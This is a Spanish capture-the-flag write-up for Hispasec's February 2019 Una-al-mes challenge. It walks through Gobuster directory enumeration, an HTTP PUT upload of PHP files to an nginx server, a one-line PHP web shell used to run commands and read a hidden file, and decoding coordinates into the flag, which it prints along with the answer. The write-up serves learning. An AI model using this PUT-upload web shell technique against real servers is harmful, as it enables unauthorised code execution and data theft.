










# Propuesta de solución del reto Una-al-mes de febrero de 2019 de Hispasec por Ramón Sola ([@asterixco](https://twitter.com/asterixco))

Los desafíos de UAM basados en el **Universo Marvel** se despiden con esta tercera entrega.

La investigación de la prueba se ha llevado a cabo en una máquina con Microsoft Windows, aunque dada su naturaleza no supone más que leves diferencias sintácticas en la invocación de programas y paso de parámetros dentro del *shell*, o la mejor o peor disponibilidad de las herramientas usadas.

## Enunciado

El último reto del trimestre se plantea de la siguiente manera.

> Misión:
>
> Sabemos que el ataque a la base de Haití se va a realizar entre el 15 y el 22 de febrero. ¡Es necesario pararlo!
>
> La web desde donde dirigen el lanzamiento es pública y por tanto su desactivación también. Necesitamos que encuentres algún fallo para colarte en el servidor, y una vez ahí encuentres algún código de desactivación válido.
>
> Recuerda que Hydra suele usar sistemas de cifrados originales y creativos.
>
> Mucha suerte soldado.
>
> Nick Furia.

Se indica el enlace <http://34.247.69.86/universomarvel/episodio3/index.php> de la página web del lanzamiento.

## Primera fase: estudio del servidor web

La página inicial muestra un campo de texto para introducir un código de desactivación y detener así la amenaza de ataque.



Se desconoce a priori de qué caracteres se compone, ya sean numéricos, alfabéticos, alfanuméricos o de cualquier otra naturaleza. Tampoco se sabe nada acerca de su longitud, ni mínimo ni máximo.

El código fuente de la página apenas revela detalles. Un comentario recuerda que “no todo es lo que parece”. Por otra parte, la imagen de fondo se carga desde el directorio **images**. El texto introducido se envía con el identificador *code* a la propia página **index.php** a través del método POST.



La visualización del listado de **images** no está restringida. Se compone en apariencia de imágenes relacionadas con personajes de S.H.I.E.L.D., así como las insignias de esta organización y de Hydra. Algunas de ellas, a pesar de la extensión **.jpg**, se encuentran en formato PNG.

La inspección de metadatos y posibles datos ocultos con herramientas como [Exiftool](https://www.sno.phy.queensu.ca/~phil/exiftool/) o visualizadores y editores hexadecimales, por ejemplo [HxD](https://mh-nexus.de/en/hxd/) para Windows, no conduce a ningún sitio. El análisis de posible esteganografía con [StegSolve](http://www.caesum.com/handbook/stego.htm) o [ImageStegano](https://github.com/varunon9/Image-Stegano) tampoco da frutos.



En este punto, el desconocimiento y la falta de ideas sobre técnicas ofensivas hacia servidores web podía retrasar o hacer fracasar la resolución del reto. Sin embargo, un comentario en el grupo de Telegram de Una-al-mes mencionó, tal vez sin pensar mucho en las consecuencias, la herramienta [Gobuster](https://github.com/OJ/gobuster). De modo similar a **dirb** o **dirbuster**, permite descubrir mediante diccionario la presencia de recursos web ocultos. Además, puede explorar subdominios de DNS.

### Enumeración de recursos

**Gobuster** funciona por línea de comandos. Los parámetros `-w` y `-u` son obligatorios y señalan respectivamente el fichero de diccionario y la dirección base del análisis. Por otro lado, la opción `-e` presenta las rutas completas encontradas; sin ella, los resultados son relativos a la base especificada. Pueden hallarse listas predefinidas en distribuciones de Linux, sobre todo como parte del paquete **dirb**, y también hallarse de forma individual en diversos repositorios de Internet. Existen distintas variantes del diccionario **common.txt** usado aquí.

Merece la pena recordar que el empleo en una situación real de una herramienta de este tipo, que lanza numerosas peticiones automatizadas en un periodo breve de tiempo, puede disparar alertas y causar sobrecargas no deseadas en los servidores, con las consecuentes llamadas de atención o prohibiciones de acceso, ya sean temporales o permanentes.

```text
Z:\uam>gobuster -e -w common.txt -u http://34.247.69.86/universomarvel/episodio3/
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://34.247.69.86/universomarvel/episodio3/
[+] Threads      : 10
[+] Wordlist     : common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded     : true
[+] Timeout      : 10s
=====================================================
2019/02/15 19:21:39 Starting gobuster
=====================================================
http://34.247.69.86/universomarvel/episodio3/examples (Status: 301)
http://34.247.69.86/universomarvel/episodio3/images (Status: 301)
http://34.247.69.86/universomarvel/episodio3/js (Status: 301)
http://34.247.69.86/universomarvel/episodio3/logs (Status: 301)
=====================================================
2019/02/15 19:21:44 Finished
=====================================================
```

Con el diccionario indicado se obtiene que, además de **images**, parecen existir los recursos **examples**, **js** y **logs**. El directorio **js** presenta copias aparentemente legítimas de varias versiones de JQuery.



Por su parte, **logs** almacena fragmentos de registros de actividad de varios servidores web y gestores de bases de datos, quizá también con el propósito de despistar. Una búsqueda rápida confirma que se trata de *logs* de ejemplo o variaciones de ellos, con grupos de líneas repetidos para hacer más bulto.



Queda por inspeccionar <http://34.247.69.86/universomarvel/episodio3/examples/>. Esta ubicación muestra una decena de subdirectorios con nombres largos sin sentido, como si un gato se hubiera paseado por el teclado o una criatura simiforme simulase tocar un piano.



La mayoría contiene tan solo un fichero de imagen **index.jpg** o **index.jpeg**, en general chistes o memes relacionados con Marvel o superhéroes en general. Sin embargo, un subdirectorio destaca sobre los demás. Resulta fácil pasar por alto que **jungasdjashdaskdansdkasdkl** redirige a <http://34.247.69.86:8080/index.jpg>, una imagen alojada en un servidor web que atiende en un puerto distinto al 80 habitual.



### Otro servidor web

Puede comprobarse el efecto de la redirección en las cabeceras de respuesta del servidor, ya sea con el monitor de red de las herramientas de desarrollo del navegador, o mediante programas clásicos de línea de comandos como **wget** o **curl**. Por ejemplo, nótense el código 302 y la cabecera **Location** al usar la opción `-S` de **wget**. Por su parte, la opción `-q` (*quiet*) suprime los mensajes de estado sobre resolución de nombres, conexión y progreso de la descarga.

```text
Z:\uam>wget -S -q http://34.247.69.86/universomarvel/episodio3/examples/jungasdjashdaskdansdkasdkl/
  HTTP/1.1 302 Found
  Date: Fri, 15 Feb 2019 18:45:34 GMT
  Server: Apache/2.4.25 (Debian)
  Location: http://34.247.69.86:8080/index.jpg
  Content-Length: 0
  Keep-Alive: timeout=5, max=100
  Connection: Keep-Alive
  Content-Type: text/html; charset=UTF-8
  HTTP/1.1 200 OK
  Server: nginx
  Date: Fri, 15 Feb 2019 18:45:34 GMT
  Content-Type: image/jpeg
  Content-Length: 110201
  Last-Modified: Wed, 13 Feb 2019 16:39:13 GMT
  Connection: keep-alive
  ETag: "5c644831-1ae79"
  Expires: Wed, 20 Feb 2019 18:45:34 GMT
  Cache-Control: max-age=432000
  Accept-Ranges: bytes
```

De acuerdo con la cabecera **Server**, el servidor del puerto 80 se identifica como **Apache** sobre Debian (distribución de GNU/Linux) y el del 8080 como **nginx**. Al eliminar **index.jpg** de la URL (<http://34.247.69.86:8080/>), se recibe la nota `No input file specified`.



Sin embargo, si se envía la misma petición con **wget** no hay constancia de respuesta.

```text
Z:\uam>wget -O - -q http://34.247.69.86:8080/
```

La opción `-O` (letra “o” mayúscula) permite guardar el contenido en el fichero especificado, distinto al que se deriva de la URL de forma predeterminada. El valor especial `-` indica la salida estándar, mientras que puede usarse `nul` o `/dev/null` según el sistema para evitar cualquier escritura.

**Wget** ignora el cuerpo de la respuesta si el servidor devuelve un código HTTP de error, comprobación que puede omitirse con la opción `--content-on-error`. Al añadir también `-S` se observa que se trata de un error 404.

```text
Z:\uam>wget -O - -q --content-on-error http://34.247.69.86:8080/
No input file specified.

Z:\uam>wget -S -O - -q --content-on-error http://34.247.69.86:8080/
  HTTP/1.1 404 Not Found
  Server: nginx
  Date: Fri, 15 Feb 2019 19:30:17 GMT
  Content-Type: text/html; charset=UTF-8
  Transfer-Encoding: chunked
  Connection: keep-alive
  X-Powered-By: PHP/7.2.10
No input file specified.
```

La cabecera `X-Powered-By: PHP/7.2.10` sugiere que el servidor web ejecuta PHP, lo que será fundamental más tarde.

## Segunda fase: explotación

“No se ha especificado un fichero de entrada.” ¿A qué puede referirse? Una vez más, un comentario inocente en el grupo de Telegram insinuó el camino. La inyección de ficheros a través de un formulario web vulnerable parecía descartada, pero el protocolo HTTP lleva un as en la manga. Los métodos GET y POST son los más populares, aunque se contemplan varios más. PUT permite crear o actualizar un recurso en una URL concreta, siempre que el servidor esté preparado para ello. Al igual que la subida de ficheros mediante formulario, el uso del método PUT en un entorno real debe estar estrictamente controlado, ya que puede poner en riesgo la seguridad de la infraestructura si no se configura de forma adecuada.

Obsérvese que, en el CMD en Windows, las comillas dobles delimitan los parámetros que contienen espacios o caracteres que poseen un significado especial, caso de `>`, `<`, `|` y `&`. Otros *shells* como Bash o PowerShell reservan las comillas simples para este propósito; según el contexto, las dobles pueden resultar menos deseables al habilitar la expansión de variables y la interpretación de otros símbolos previa a la ejecución de la orden introducida.

El envío de una petición PUT se lleva a cabo con **wget** mediante la opción `--method=PUT`, acompañada de `--body-data` con el texto literal del cuerpo o `--body-file` y la ubicación de un fichero. Se intenta con un simple “Hail Hydra”.

```text
Z:\uam>wget -O - -q -S --content-on-error --method=PUT --body-data="Hail Hydra" http://34.247.69.86:8080/hailhydra
  HTTP/1.1 201 Created
  Server: nginx
  Date: Fri, 15 Feb 2019 19:33:44 GMT
  Content-Length: 0
  Location: http://34.247.69.86/hailhydra
  Connection: keep-alive
```

El código de respuesta 201 insufla esperanzas. Curiosamente, en la cabecera **Location** no consta ninguna referencia al puerto 8080. No obstante, ¿se puede acceder al nuevo recurso **hailhydra** a través de él?

```text
Z:\uam>wget -O - -q -S --content-on-error http://34.247.69.86:8080/hailhydra
  HTTP/1.1 403 Forbidden
  Server: nginx
  Date: Fri, 15 Feb 2019 19:33:58 GMT
  Content-Type: text/html; charset=UTF-8
  Transfer-Encoding: chunked
  Connection: keep-alive
  X-Powered-By: PHP/7.2.10
Access denied.
```

El resultado es un error 403 con un mensaje de acceso denegado; descorazonador, pero no todo está perdido. La prueba con la extensión **.php** sí resulta satisfactoria.

```text
Z:\uam>wget -O - -q -S --content-on-error --method=PUT --body-data="Hail Hydra" http://34.247.69.86:8080/hailhydra.php
  HTTP/1.1 201 Created
  Server: nginx
  Date: Fri, 15 Feb 2019 19:34:42 GMT
  Content-Length: 0
  Location: http://34.247.69.86/hailhydra.php
  Connection: keep-alive

Z:\uam>wget -O - -q -S --content-on-error http://34.247.69.86:8080/hailhydra.php
  HTTP/1.1 200 OK
  Server: nginx
  Date: Fri, 15 Feb 2019 19:34:48 GMT
  Content-Type: text/html; charset=UTF-8
  Transfer-Encoding: chunked
  Connection: keep-alive
  X-Powered-By: PHP/7.2.10
Hail Hydra
```

En una suerte de *crossover* con tintes “lovecraftianos”, la primera parte del conjuro del sectario surte efecto: comienza a abrirse un portal mágico y se vislumbra la silueta de una sombra primigenia que no es de este mundo.

Los segmentos de código PHP se delimitan con las marcas `<?php` y `?>`. ¿Por qué no intentar algo un poco más ambicioso como una llamada a [phpinfo](http://php.net/manual/es/function.phpinfo.php)?

```text
Z:\uam>wget -S -O - -q --content-on-error http://34.247.69.86:8080/infooooo.php --method=PUT -body-data="<?php phpinfo(); ?>"
  HTTP/1.1 201 Created
  Server: nginx
  Date: Fri, 15 Feb 2019 19:35:14 GMT
  Content-Length: 0
  Location: http://34.247.69.86/infooooo.php
  Connection: keep-alive
```

La visita del nuevo recurso con el navegador demuestra que el fichero ha pasado por el intérprete de PHP y este ha ejecutado el código que contiene.



Un simple `<?php echo 'Hail Hydra'; ?>` habría sido igual de eficaz. La función **phpinfo** tiene la ventaja de la gran cantidad de información que revela sobre la configuración del servidor y el entorno de ejecución de PHP, lo que en algunas situaciones facilita la planificación de otros ataques. El administrador puede decidir deshabilitarla a través del fichero **php.ini**.

### Web shell simple

El ritual se intensifica, la sombra alienígena se hace más nítida. Es turno del truco final: [system](http://php.net/manual/es/function.system.php), como su homónima de la biblioteca de C. Se ha decidido arbitrariamente que recibirá la línea de comandos mediante un parámetro que se ha dado en llamar **cmd** (es decir, invocado como `?cmd=comando`), aunque se podría haber elegido **x**, **a** o incluso **revealyoursecrets**; depende de la cadena que se coloque como índice o clave del array asociativo **$_GET**. Préstese atención al anidamiento de las comillas. Se escoge **mishell123.php** como nombre para evitar posibles conflictos con otros participantes de la Una-al-mes, ya que la máquina que contiene los servidores es compartida aunque retorna de manera periódica a su estado inicial.

```text
Z:\uam>wget -O - -q -S --content-on-error --method=PUT --body-data="<?php system($_GET['cmd']); ?>" http://34.247.69.86:8080/mishell123.php
  HTTP/1.1 201 Created
  Server: nginx
  Date: Fri, 15 Feb 2019 19:39:28 GMT
  Content-Length: 0
  Location: http://34.247.69.86/mishell123.php
  Connection: keep-alive
```

Incluso se podría crear un *script* de PHP un poco más elaborado para que el resultado *quedase bonito* también en el navegador. Tan solo hay que sustituir **system** por [exec](http://php.net/manual/es/function.exec.php), que permite capturar la salida del comando, y emitir el resultado entre etiquetas **PRE** con los caracteres especiales de HTML debidamente escapados. Como se compondría de varias líneas, `--body-data` ya no sería adecuado, sino que se usaría `--body-file` como en `--body-file=shell.php`. Sin embargo, si la salida del comando pasado a **exec** fuese binaria y no textual, la combinación con las etiquetas **PRE** ocasionaría problemas.

```php
<pre>
<?php
$output = array();
exec($_GET["cmd"], $output);
echo htmlspecialchars(implode("\n", $output));
?>
</pre>
```

El código simple `<?php system($_GET['cmd']); ?>` cumple su cometido. El resultado no puede ser más alentador. El sectario celebra con entusiasmo.

```text
Z:\uam>wget -O - -q http://34.247.69.86:8080/mishell123.php?cmd=pwd
/var/www/html

Z:\uam>wget -O - -q http://34.247.69.86:8080/mishell123.php?cmd=whoami
nginx
```

La sombra primigenia se materializa definitivamente en una criatura monstruosa que toma el control de la máquina, al menos hasta donde la propia cuenta de usuario **nginx** tenga alcance. Un **ls** no enseña nada fuera de lo común aparte de los ficheros de prueba ya subidos.

```text
Z:\uam>wget -O - -q http://34.247.69.86:8080/mishell123.php?cmd=ls
hailhydra
hailhydra.php
infooooo.php
mishell123.php
```

No obstante, el listado simple podría no mostrar todos los archivos existentes. Por convenio, aquellos cuyo nombre comienza por un punto se consideran ocultos, de modo que se ha de usar la opción `-a` de **ls** para que aparezcan, o se les puede nombrar con el comodín `.*` que el *shell* se encargará de expandir. Nótese que el espacio se debe transformar en el carácter `+` o en su codificación `%20` para que el servidor lo interprete correctamente. En esta ocasión, aguarda una sorpresa.

```text
Z:\uam>wget -O - -q http://34.247.69.86:8080/mishell123.php?cmd=ls+-a
.hydra-encrypt.txt
hailhydra
hailhydra.php
infooooo.php
mishell123.php
```

El fichero **.hydra-encrypt.txt** presenta un nombre muy sugerente. Basta con emplear **cat** para obtener su contenido, siempre y cuando esté autorizada su lectura.

```text
Z:\uam>wget -O .hydra-encrypt.txt http://34.247.69.86:8080/mishell123.php?cmd=cat+.hydra-encrypt.txt
```

El servidor obedece al mandato y transfiere lo que parece ser algún tipo de código basado en números.

```text
-51.2263816202, 8.10899805433
-3.396936473, 7.87198824054
45.1590246548, 7.93243330727
45.7384951953, -73.2066721802
-3.42714386964, -72.9107266853
-2.77172800229, 7.52185701112
19.1399952, -72.3570972
44.5607307927, -73.0205921546
43.6100611723, 6.58946301884
-2.73141067245, 8.27764655993
-50.3213413202, 7.07393246568
-51.2758314025, -73.091160021
-2.47453022387, -72.4698275544
44.2979255136, -72.4873645117
19.1399952, -72.3570972
-50.505288471, 7.6154200698
-2.77032857828, 8.45085972386
43.3953722545, 7.12287052714
45.8072900754, -73.1907339308
-2.95197936965, -72.2507948297
-3.37159885987, 7.61851969812
19.1399952, -72.3570972
44.9471915554, -71.7312374845
43.434079994, 7.05564264826
-3.77755921359, 7.3140029803
-2.1765448219, -72.9980908924
45.5157039055, -72.0750205454
-2.6665636247, -71.758301384
-52.4282156352, -73.7745944789
-50.711316091, 8.37083156669
-2.51838084051, 7.54880895033
19.1399952, -72.3570972
45.0778663225, -72.5092560673
-3.09237153981, -71.5875397405
-2.54013043815, 8.29075062273
-51.2650141235, 7.38182033986
-51.3843804847, -72.6927837569
-3.47113449173, -73.2910711802
19.1399952, -72.3570972
43.951979572, 7.34734479231
45.0774665767, -72.6653555968
-1.64013868935, -71.880258046
-2.5651543193, 7.15699499792
-51.1302541808, 6.61409584651
-51.6645314915, -72.2889667536
19.1399952, -72.3570972
-50.9537618541, 7.86695357465
-3.39854486395, 7.54749242771
44.1875549665, 8.41825012463
44.5392940445, -72.5272725636
-2.11328803913, -71.5479514771
-3.68109586997, 8.3987557492
19.1399952, -72.3570972
-50.3640122893, 7.42600497636
-3.20207550584, 8.67050872668
43.7000729441, 6.93679182633
45.0580573149, -71.7938069637
-3.31919012843, -72.2350798982
-3.46384596989, 8.17271197177
19.1399952, -72.3570972
44.2842879927, -72.7735510253
-3.32885065011, -73.176847501
-2.4505637663, 7.42942648896
44.4455780729, 8.40633450195
-2.42629846443, 8.67464696509
-51.6986157517, 6.67583285244
19.1399952, -72.3570972
44.6513902796, 8.20328564618
-3.53964840101, 7.99538219466
-51.2036099499, 6.99221399195
19.1399952, -72.3570972
```

El ritual ha sido todo un éxito. La criatura se desvanece y el portal se cierra. El sectario ha conseguido su objetivo.

## Tercera fase: interpretación del código numérico

El aspecto de la secuencia numérica lleva a pensar que se trata de una lista de coordenadas geográficas que denotan latitud y longitud. Los valores positivos corresponden a las orientaciones norte y este, respectivamente, mientras que los negativos indican sur y oeste.

En cuanto se trasladan varias coordenadas consecutivas a localizaciones en el globo terráqueo, se hace evidente que la clave del enigma no son los territorios o espacios señalados, sino las propias posiciones geográficas y su orden. No cuesta mucho hallar sitios web que ofrezcan la función de dibujar varios puntos sobre el mapamundi. Por ejemplo:

- <https://www.mapcustomizer.com>
- <https://www.copypastemap.com>
- <https://www.hamstermap.com/custommap.html>

En realidad, no hace falta siquiera un mapa, pues se pueden considerar como puntos del [plano cartesiano](https://es.wikipedia.org/wiki/Coordenadas_cartesianas), un concepto puramente geométrico.

Se aprecian algunos patrones. Primero, el par `19.1399952, -72.3570972` se repite cierto número de veces. Su ubicación se corresponde con Haití, tal vez un guiño al propio reto. En los demás casos, las latitudes oscilan en torno a tres grupos principales y las longitudes alternan entre dos, lo que da lugar a seis zonas.

| Latitud | Longitud | Zona                                                  |
|--------:|---------:|-------------------------------------------------------|
|  ~44° N |   ~72° O | Entre EE. UU. y Canadá (costa este de Norteamérica)   |
|  ~44° N |    ~8° E | Entre Francia e Italia (Europa)                       |
|   ~3° S |   ~72° O | Entre Colombia y Perú (norte de Sudamérica)           |
|   ~3° S |    ~8° E | Golfo de Guinea (África)                              |
|  ~50° S |   ~72° O | Entre Chile y Argentina (sur de Sudamérica)           |
|  ~50° S |    ~8° E | Océano Atlántico Sur (entre Sudáfrica y la Antártida) |

Rápidamente se comprueba que las secuencias correlativas de puntos trazan líneas rectas que forman cifras y recuerdan a los visualizadores o [*displays* de siete segmentos](https://es.wikipedia.org/wiki/Visualizador_de_siete_segmentos) en electrónica. Haití actúa como un separador o valor centinela. Como ejemplo se muestra la generación de un **9**, un **0**, un **8**, un **6** y un **5**.

```text
   D----C     A -51.2263816202,    8.10899805433
   |    |     B  -3.396936473,     7.87198824054
   |    |     C  45.1590246548,    7.93243330727
   E----|B,F  D  45.7384951953,  -73.2066721802
        |     E  -3.42714386964, -72.9107266853
        |     F  -2.77172800229,   7.52185701112
        A

 A,G----B     A  44.5607307927,  -73.0205921546
   |    |     B  43.6100611723,    6.58946301884
   |    |     C  -2.73141067245,   8.27764655993
  F|    |C    D -50.3213413202,    7.07393246568
   |    |     E -51.2758314025,  -73.091160021
   |    |     F  -2.47453022387, -72.4698275544
   E----D     G  44.2979255136,  -72.4873645117

              A  44.9471915554,  -71.7312374845
 A,E----B     B  43.434079994,     7.05564264826
   |    |     C  -3.77755921359,   7.3140029803
   |    |     D  -2.1765448219,  -72.9980908924
D,F|----|C,I  E  45.5157039055,  -72.0750205454
   |    |     F  -2.6665636247,  -71.758301384
   |    |     G -52.4282156352,  -73.7745944789
   G----H     H -50.711316091,     8.37083156669
              I  -2.51838084051,   7.54880895033

   A          A  45.0778663225,  -72.5092560673
   |          B  -3.09237153981, -71.5875397405
   |          C  -2.54013043815,   8.29075062273
B,F|----C     D -51.2650141235,    7.38182033986
   |    |     E -51.3843804847,  -72.6927837569
   |    |     F  -3.47113449173, -73.2910711802
   E----D

   B----A     A  43.951979572,     7.34734479231
   |          B  45.0774665767,  -72.6653555968
   |          C  -1.64013868935, -71.880258046
   C----D     D  -2.5651543193,    7.15699499792
        |     E -51.1302541808,    6.61409584651
        |     F -51.6645314915,  -72.2889667536
   F----E
```

Al final se obtiene el número **9098659941**. Cabe pensar con toda lógica que se trate del código de desactivación requerido. Al introducirlo en el formulario web, la respuesta es afirmativa y revela la *flag*.

> Enhorabuena, has parado el ataque. La flag es: **UAM{e6570888dfb444f3bf2b50f6955b8eb5}**



Como curiosidad, el servidor envía la *cookie* `token=429b2fa25c7a3668b61e7b49ad7bd6c8` en la confirmación.

```text
Z:\uam>wget -S -q http://34.247.69.86/universomarvel/episodio3/index.php --post-data "code=9098659941"
  HTTP/1.1 200 OK
  Date: Fri, 15 Feb 2019 22:39:32 GMT
  Server: Apache/2.4.25 (Debian)
  Set-Cookie: token=429b2fa25c7a3668b61e7b49ad7bd6c8; expires=Fri, 15-Feb-2019 23:39:32 GMT; Max-Age=3600
  Refresh: 0
  Vary: Accept-Encoding
  Content-Length: 1026
  Keep-Alive: timeout=5, max=100
  Connection: Keep-Alive
  Content-Type: text/html; charset=UTF-8
```

De acuerdo con <https://www.md5online.org/md5-decrypt.html>, los *hashes* MD5 de la *cookie* y la *flag* corresponden a las cadenas **hydrauserlogin** y **GG_U_Stopped_the_attack** respectivamente.
